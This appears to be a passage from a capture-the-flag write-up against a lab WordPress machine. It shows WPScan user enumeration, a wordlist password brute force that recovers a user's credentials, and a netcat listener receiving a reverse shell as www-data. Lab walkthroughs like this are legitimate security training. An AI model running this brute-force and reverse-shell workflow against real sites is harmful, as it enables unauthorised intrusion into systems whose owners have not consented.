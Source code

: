 [!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Oct  6 01:49:29 2024
[+] Requests Done: 468
[+] Cached Requests: 19
[+] Data Sent: 133.995 KB
[+] Data Received: 646.7 KB
[+] Memory used: 398.488 MB
[+] Elapsed time: 00:01:04</code></pre>

<pre><code>[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.168.66/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bob
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)</code></pre>

<pre><code>
~>sudo docker run -it --rm -v /home/maxi/Escritorio/SecLists/Passwords/Leaked-Databases:/seclists wpscanteam/wpscan --url http://10.10.168.66/wordpress/ -U admin,bob --passwords /seclists/rockyou-75.txt  
[+] Performing password attack on Wp Login against 2 user/s
[SUCCESS] - bob / soccer                                                                                             
^Cying admin / doritos Time: 00:16:21 <==                                     > (8149 / 118402)  6.88%  ETA: 03:41:25
[!] Valid Combinations Found:
 | Username: bob, Password: soccer
</code></pre>

![2024-10-05_23-34](https://github.com/user-attachments/assets/a1f0077c-1a43-4794-bfdc-adb66e4f8748)

![2024-10-05_23-39](https://github.com/user-attachments/assets/4ed2fdda-1009-4e42-9610-85aa94f5b35f)

<pre><code>~> nc -nlvp 1234
Connection from 10.10.168.66:54220
Linux Breakme 5.10.0-8-amd64 #1 SMP Debian 5.10.46-4 (2021-08-03) x86_64 GNU/Linux
 22:39:33 up  1:27,  0 users,  load average: 0.02, 0.01, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data</code></pre>
